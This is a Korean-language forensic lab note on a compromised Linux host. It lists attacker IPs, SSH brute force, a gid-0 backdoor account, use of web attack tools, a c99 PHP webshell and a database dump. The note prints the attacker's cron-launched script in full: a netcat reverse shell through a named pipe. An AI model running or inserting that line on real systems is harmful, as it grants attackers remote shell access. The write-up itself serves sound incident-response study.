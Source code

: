 ```yaml
---
title : 침해사고분석 - Linux
---
```


### Linux Image Dump

> ex) dd if=/dev/sda of=/mnt/hgfs/LinuxImage/linux.dd

<br>

### 실습

>**Victim IP**
>
>192.168.171.188
>
>**Attacker IP**
>
>192.168.171.1, 192.168.171.146, 192.168.171.182
>
><br>
>
>**crontab**
>
>/tmp/wow64.sh 쉘 스크립트 실행 등록
>
><br>
>
>**wow64.sh**
>
>#!/bin/bash
>
>mknod /tmp/backpipe p
>
>/bin/sh 0</tmp/backpipe | nc 192.168.171.1 5555 1>/tmp/backpipe
>
><br>
>
>**/etc/passwd**
>
>infosechack 계정 root도 아닌데 gid가 0
>
><br>
>
>**/var/log/auth.log**
>
>Nov 1 21:32:20 192.168.171.146
>
>ssh brute force attack
>
>Nov 1 21:41:02 192.168.171.1
>
>1. Windows SSH Client로 SSH 접속
>2. root로 로그인 성공
>3. infosechack useradd 됨
>4. 로그아웃 후 infosechack으로 다시 ssh 접속
>
><br>
>
>**/var/log/access.log**
>
>Nov 1 21:19:16
>
>192.168.171.182
>
>vega 사용(brute force 툴)
>
>192.168.171.146
>
>w3af 사용(웹앱 공격 툴)
>
>/morningmall/m_login_ok.php
>
>hydra 사용(brute force 툴) 
>
><br>
>
>**/var/log/apache2/access.log**
>
>Nov 1 23:29:02 192.168.171.1
>
>c99_madnet.php 접근(php webshell)
>
>코드 난독화
>
>base64 php decoding
>
><br>
>
>**/var/www/morningmall/dump_192.168.171.188_mysql_02-11-2014-00-07-10.sql**
>
>2014-11-02 00:07:10
>
>sql 덤프